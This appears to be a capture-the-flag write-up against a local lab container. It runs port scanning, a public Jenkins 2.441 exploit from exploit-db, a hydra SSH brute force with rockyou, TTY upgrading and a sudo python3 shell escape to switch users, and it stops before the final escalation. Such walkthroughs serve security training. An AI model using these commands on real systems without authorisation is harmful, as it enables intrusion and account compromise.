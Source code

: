 ![image](https://github.com/user-attachments/assets/0cb3d581-c87a-416d-b473-93d195490f87)


```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/b92223b9-e47a-47c2-a3cb-d60f3daa2a97)

## **We have a web page running on port 8080**

![image](https://github.com/user-attachments/assets/b723c382-958a-48ed-8433-c8e350fc7320)

## **Researching the web**
```bash
whatweb http://172.17.0.2:8080
```
![image](https://github.com/user-attachments/assets/01227e0c-8480-4b17-8c5c-6cab5025b306)

## **We search for possible vulnerabilities and exploits**
```bash
searchsploit jenkins 2.441
```
![image](https://github.com/user-attachments/assets/9b1413f6-8369-4d9d-b86e-4f956da458fa)

## **We bring to our working folder for further exploitation**
```bash
❯ locate java/webapps/51993.py
/usr/share/exploitdb/exploits/java/webapps/51993.py
❯ mv /usr/share/exploitdb/exploits/java/webapps/51993.py .
❯ ls
 51993.py
```
## **we run exploit**
``` bash
python3 51993.py -u http://172.17.0.2:8080
```
![image](https://github.com/user-attachments/assets/fa4e8b44-0c3c-4a55-822c-ab9c1a462b2e)

## **We will apply a brute force attack with hydra on port 22 with the user that we find**
```bash
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![image](https://github.com/user-attachments/assets/3499650a-5ae9-43ca-ad4c-c89cb8ae7931)

## **Now we will log in via ssh**
```bash
ssh bobby@172.17.0.2
```
![image](https://github.com/user-attachments/assets/2293eb00-7d0e-4e22-8dfd-a3b1485fe7fe)

## **Once inside it's time to escalate privileges**
```bash
sudo -l
```
![image](https://github.com/user-attachments/assets/682b3ea1-0c6c-42f1-99d1-1e630f08d146)
![image](https://github.com/user-attachments/assets/33ce0d41-31af-49dd-8980-8d552bd1441b)

## **Treatment of tty**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## **As we saw in the previous step only the user pinguinito can use the python3 command at root level so let's try to change user**
```bash
sudo -u pinguinito /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
```
![image](https://github.com/user-attachments/assets/3e3053ac-29f7-4565-aa28-e79532b1811b)
## **Treatment of tty**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## **Once inside it's time to escalate privileges**
```bash
sudo -l
```
![image](https://github.com/user-attachments/assets/0acfea2b-b7ff-45f0-8c93-9a9fec46d86d)
![image](https://github.com/user-attachments/assets/33ce0d41-31af-49dd-8980-8d552bd1441b)






